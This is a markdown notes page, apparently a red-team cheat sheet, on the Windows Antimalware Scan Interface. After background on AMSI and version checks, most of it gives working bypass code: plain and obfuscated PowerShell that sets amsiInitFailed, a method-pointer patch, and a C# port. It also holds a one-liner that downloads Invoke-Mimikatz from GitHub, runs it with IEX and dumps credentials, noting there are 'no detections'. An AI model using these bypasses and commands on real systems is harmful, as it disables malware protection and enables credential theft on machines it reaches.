

# AMSI (Anti-Malware Scanning Interface)

> WARNING : Amsi loads into powershell, with dotner amsi integrates with the clr which loads AMSI on demand.

AmsiScanBuffer
AmsiScanString
AssemblyLoad

Show api calls made (user to kernel/syscall)

Languages
-- -
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)


AMSI
-- -

Introduced in June 2015.

The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.  

AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.

The AMSI feature is integrated into these components of `Windows 10`:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell `v5` (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic 
- Office365 (JavaScript/VBA)  
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - ***NEW***

> **Runtime – Antimalware Scanning for All Assemblies** : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.

[https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)

.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.

In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:

- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher

[https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)

>Runtime – Antimalware Scanning for All Assemblies
>In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
>
>.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
>
>**LINK** : [https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/](https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/)
>
>**LINK** : [https://en.wikipedia.org/wiki/.NET_Framework_version_history](https://en.wikipedia.org/wiki/.NET_Framework_version_history)


Supported OS
---
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019

Supported 3rd party Antivirus/EDR vendors
---
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0 
- Sophos
- Symantec (v14.3 and later)

**LINK** : [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)


To check which version of .net and the CLR is installed open a powershell prompt and type the following:

```code
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version
```



Check Powershell installed on the system:

```yaml
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
```

AMSITEST
---

```yaml
It '"Antimalware Scan Interface" is working' {
    # AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
    # (in the following as an obfuscated string)
    # must throw an error if executed (blocked by AMSI)
    $TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $Bytes = [Convert]::FromBase64String($TestString)
    $String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
    { Invoke-Expression -Command $String } | Should Throw
}
```

AMSIBYPASS
---

Works on 1803 and before

> This bypass does not require administrator rights!!!

```yaml
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic, Static').SetValue($null,$true)
```

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patch-the-providers-DLL-of-Microsoft-MpOav.dll

check which processes have amsi.dll loaded

Get-Process | where {$_.modules.ModuleName -eq 'Amsi.dll'}


Los er door:

```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b


And finally AMSI.FAIL

or this also works

```powershell
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)  
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```

then run

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

No detections, AMSI is disabled

## AMSI Bypass in .NET Binaries

Yes, the AMSI bypass technique provided, which uses reflection to set the `amsiInitFailed` field to `$true`, will also work in .NET binaries, not just in PowerShell.

**Understanding the Technique:**

* **Reflection:** The core of this bypass relies on .NET reflection, which allows code to inspect and modify types, fields, and methods at runtime.
* **Targeting `amsiInitFailed`:** The code specifically targets the `amsiInitFailed` static field within the `System.Management.Automation.AmsiUtils` class. This field is used to indicate whether the AntiMalware Scan Interface (AMSI) initialization has failed.
* **Setting to `$true`:** By setting this field to `$true`, the code effectively tells the .NET runtime that AMSI initialization has failed, causing AMSI scans to be skipped.

**How it Works in .NET Binaries:**

1.  **Locating `AmsiUtils`:** Just like in PowerShell, you can use reflection in C# (or other .NET languages) to locate the `System.Management.Automation.AmsiUtils` class.
2.  **Accessing `amsiInitFailed`:** You can then use reflection to access the `amsiInitFailed` static field.
3.  **Setting the Value:** Finally, you can use reflection to set the value of the `amsiInitFailed` field to `true`.

**C# Example:**

```csharp
using System;
using System.Reflection;

public class AmsiBypass
{
    public static void Main(string[] args)
    {
        try
        {
            // Get the AmsiUtils type
            Type amsiUtilsType = typeof(System.Management.Automation.AmsiUtils);

            // Get the amsiInitFailed field
            FieldInfo amsiInitFailedField = amsiUtilsType.GetField("amsiInitFailed", BindingFlags.NonPublic | BindingFlags.Static);

            // Set the amsiInitFailed field to true
            if (amsiInitFailedField != null)
            {
                amsiInitFailedField.SetValue(null, true);
                Console.WriteLine("AMSI bypassed.");
            }
            else
            {
                Console.WriteLine("amsiInitFailed field not found.");
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}
```
## Key Considerations:

* **Assembly Loading:**
    * If your .NET binary doesn't already have `System.Management.Automation.dll` loaded, you may need to load it explicitly using `Assembly.Load()` or related methods.
* **.NET Version Compatibility:**
    * Ensure that the reflection code is compatible with the .NET Framework or .NET Core/.NET 5+ version that the target binary is using.
* **Security Implications:**
    * AMSI bypass techniques can be used for malicious purposes. Use them responsibly and ethically.
* **EDR Detection:**
    * Modern EDR solutions are designed to detect such reflection-based attacks. They often monitor for suspicious memory modifications and code behavior.
* **Finding the correct assembly:**
    * In some .net applications, the `System.Management.Automation.dll` may not be loaded. If this is the case, you will need to load it.

**In summary:** The AMSI bypass technique using reflection is not limited to PowerShell and can be successfully implemented in .NET binaries.

-----
# dotnet packing

ConfuserEx
Babel

----
https://github.com/pracsec/AmsiScanner/tree/main/src
